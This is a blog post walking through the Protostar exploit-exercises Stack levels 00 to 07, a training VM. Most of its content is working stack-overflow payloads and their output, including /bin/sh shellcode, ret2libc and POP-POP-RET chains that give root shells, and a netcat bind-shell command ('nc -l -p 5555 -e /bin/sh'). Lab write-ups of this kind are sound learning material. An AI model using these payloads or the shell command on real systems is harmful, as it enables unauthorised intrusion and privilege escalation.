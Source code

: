 ```yaml
---
categories:
- protostar
- stack
comments: false
date: "2013-03-30T23:21:16Z"
title: Protostar solutions - Stack Levels
---
```


Part two of the three [exploit exercises](http://exploit-exercises.com/) available.  This set of challenges focused purely on memory corruption via stack overflows; the challenges here weren't too difficult, but I wanted to work through them anyway.  A post with the remaining levels will follow.

<h3>Stack Level 00</h3>
Introductory level that introduces stack layout; here, the `modified` variable follows a 64 byte array on the stack.  If the stack is overwritten, the modified variable will be run over.

```
user@protostar:~$ python -c "print 'A'*70" | ./stack0 
you have changed the 'modified' variable
user@protostar:~$
```

<h3>Stack Level 01</h3>
Another introductory level that forces you to overwrite a particular variable with a specific value.  Essentially we need to take level 00 and figure out exactly where to overwrite the modified variable.  This can be trivially guessed, considering we know the buf size.  Remembering that this architecture is little endian:

```
user@protostar:~$ ./stack1 $(perl -e 'print "A"x64 . "dcba"')
you have correctly got the variable to the right value
user@protostar:~$
```

It's also worth noting that, if you're loading this into gdb, the modified variable is volatile, so if you `p &modified` and don't get the right value, don't worry.  You're not crazy.

<h3>Stack Level 02</h3>
Almost a carbon copy of level 1, except this time our input vector is an environmental variable.

```
user@protostar:~$ export GREENIE=$(perl -e 'print "A"x64 . "\x0a\x0d\x0a\x0d"')
user@protostar:~$ ./stack2
you have correctly modified the variable
```

<h3>Stack Level 03</h3>
This level has us redirecting code flow to another function present in the source.  The buffer length is the same as the previous three, so we just need to find out where the function lies. 

```
user@protostar:~$ objdump -d stack3 | grep win
08048424 <win>:
user@protostar:~$ echo $(perl -e 'print "A"x64 . "\x24\x84\x04\x08"') | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:~$ 
```

<h3>Stack Level 04</h3>
Instead of overwriting a function call, we'll be overwriting a return address.  When the function exits, it pops the current stack frame off and returns the saved frame pointer, so we need only overflow the address immediately following EBP.

```
user@protostar:~$ objdump -d stack4 | grep win
080483f4 <win>:
user@protostar:~$ perl -e 'print "A"x76 . "\xf4\x83\x04\x08"' | ./stack4 
code flow successfully changed
Segmentation fault
user@protostar:~$ 
```

<h3>Stack Level 05</h3>
There's no real flag here aside from getting a shell, so we'll need some shellcode now.  Disclaimer: I spent a good deal of time trying to get shellcode working for this, and would continually brick wall at the same spot:

```
(gdb) ni
Executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.

Program exited normally.
(gdb) 
```

During one of my googling escapades, I haphazardly clicked [this](http://www.mattandreko.com/2011/12/exploit-exercises-protostar-stack-5.html) link from someone having the exact same issues with this level.  What should be a very simple buffer overflow turned into a very wonky, absurd tumble through some obscure shellcode issues.  In the end, I came up with this solution:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x76 . "\x80\xf7\xff\xbf" . "\x90"x9 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' | ./stack5 
# whoami
root
#
```

<h3>Stack Level 06</h3>
This level forces us to place our shellcode in a specific path; i.e. out of userland.  We can't just stick it onto the stack, and we can't place it in an environmental variable.  Instead, we must use ret2[libc|strcpy|gets|etc] or ROP.  It verifies the function's return address by calling `__built_return_address(0)`, which will return the current function's return address. 

This one was pretty fun, as I was able to leverage the ret2libc to pull it off.  I used c0ntext's [ret2libc](http://css.csail.mit.edu/6.858/2012/readings/return-to-libc.pdf) demonstration paper as reference.  I based most of my work off the previous level, and modified it only by adding system() and exit() addresses.  My payload in the end looked like this:

`[80 bytes junk | system() address | exit() address | command]`

For this example, I have my command stashed in the GETME environmental variable:

```
user@protostar:/opt/protostar/bin$ export GETME=/bin/sh
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x86\xff\xff\xbf";' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAA�����`췆���
user@protostar:/opt/protostar/bin$ export GETME=/usr/bin/whoami
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x80\xff\xff\xbf";' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAA�����`췀���
root
user@protostar:/opt/protostar/bin$ 
```

I wasn't able to get /bin/sh launched with a system() call, and after checking the man page, it appears that system drops root privileges.  My second thought was to simply open up a reverse shell:

```
user@protostar:/opt/protostar/bin$ export GETME="/bin/nc -l -p 5555 -e /bin/sh"
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x72\xff\xff\xbf";' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAA�����`��r���
```

I now had a root shell listening on port 5555. 

<h3>Stack Level 07</h3>
The final stack level is almost exactly like the previous level, however this time when it returns from getpath(), it returns strdup(buffer), which returns a pointer to a duplicate string of buffer.  The address range is also now much more restrictive; disabling any address matching 0xb0000000.  The exploit page notes that we should be thinking about a ret2text to exploit this, so I started thinking of ways to ret2plt or ret2dl-resolve, but in the end decided those were likely too advanced for such a simple level.  Instead, I objdump'd the binary in search of a POP POP RET, which would bypass the addressing filter and allow me to take control over EIP.  The first one I found was at `0x8048492`.  After some twiddling, I discovered the following would lead me to code execution: `perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "\x90"x8' . "\xcc"x16 | ./stack7`.  So the payload will look like this `[80 bytes junk | POP POP RET | 8 bytes junk | shellcode]`

I dumped the shellcode from level 5 into this, but for some reason the shell would only spawn if running in gdb:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "\x90"x8 . "\xac\xf7\xff\xbf" . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /tmp/input
user@protostar:/opt/protostar/bin$ gdb ./stack7
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) r < /tmp/input
Starting program: /opt/protostar/bin/stack7 < /tmp/input
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��������������1�1۰ ̀Sh/ttyh/dev��1�f� '�̀1�Ph//shh/bin��PS�ᙰ

Executing new program: /bin/dash
$ exit
user@protostar:/opt/protostar/bin$ ./stack7 < /tmp/input
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA��������������1�1۰ ̀Sh/ttyh/dev��1�f� '�̀1�Ph//shh/bin��PS�ᙰ

Segmentation fault
user@protostar:/opt/protostar/bin$
```

Where `\xac\xf7\xff\xbf` is the address of shellcode.  Instead I threw shellcode into an environmental variable and leveraged Jon Ericson's getenvaddr application to find the offset:

```
user@protostar:/opt/protostar/bin$ export GETME=`perl -e 'print "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
user@protostar:/opt/protostar/bin$ /tmp/test GETME ./stack7
GETME will be at 0xbfffff58
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x80 . "\x92\x84\x04\x08" . "\x90"x8 . "\x58\xff\xff\xbf"' > /tmp/input
user@protostar:/opt/protostar/bin$ ./stack7 < /tmp/input 
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��AAAAAAAAAAAA����������X���
# whoami
root
# 
```

Overall these levels were pretty basic, but I'm looking forward to digging into Fusion for more advanced flags.  
